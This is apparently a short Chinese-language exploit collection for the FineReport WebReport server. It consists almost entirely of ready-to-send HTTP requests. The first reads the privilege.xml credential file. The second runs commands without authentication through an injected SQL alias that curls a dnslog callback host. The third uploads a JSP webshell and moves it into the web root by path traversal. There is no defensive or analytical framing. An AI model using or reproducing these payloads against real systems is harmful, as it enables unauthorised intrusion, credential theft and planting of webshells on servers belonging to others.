 ### 任意文件读取漏洞
```
http://localhost:8075/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

### 未授权命令执行漏洞
```
POST /WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Content-Length: 675

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://hfgzn5.dnslog.cn');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```

### 文件上传漏洞
插件上传的漏洞文件位于fr-platform-8.0.jar包中的com.fr.fs.plugin.op.web.action.InstallFromDiskAction
```
POST /WebReport/ReportServer?op=plugin&cmd=local_install HTTP/1.1
Host: 10.92.64.169:8075
Content-Length: 226
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9ZPGwpk0bLORZAro
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=53F74B74ECF933876F24232796688180; fr_remember=false; fr_password=; fr_username=erick
Connection: close

------WebKitFormBoundary9ZPGwpk0bLORZAro
Content-Disposition: form-data; name="install-from-disk"; filename="shell.zip"
Content-Type: application/zip

<%
    out.print("1");
%>
------WebKitFormBoundary9ZPGwpk0bLORZAro--
```
将 WEB-INF/upload/local_temp.zip 文件移动到 web 目录下，在ServerConfigManualBackupAction 类的 actionCMD 方法中，
```
POST /WebReport/ReportServer?op=fr_server&cmd=manual_backup HTTP/1.1
Host: 0.0.0.0:8080
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=12wuh1def7w85; fr_password=; fr_remember=false
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

optype=edit_backup&oldname=../../../WEB-INF/upload/local_temp.zip&newname=../../../shel.jsp&serverID=
```

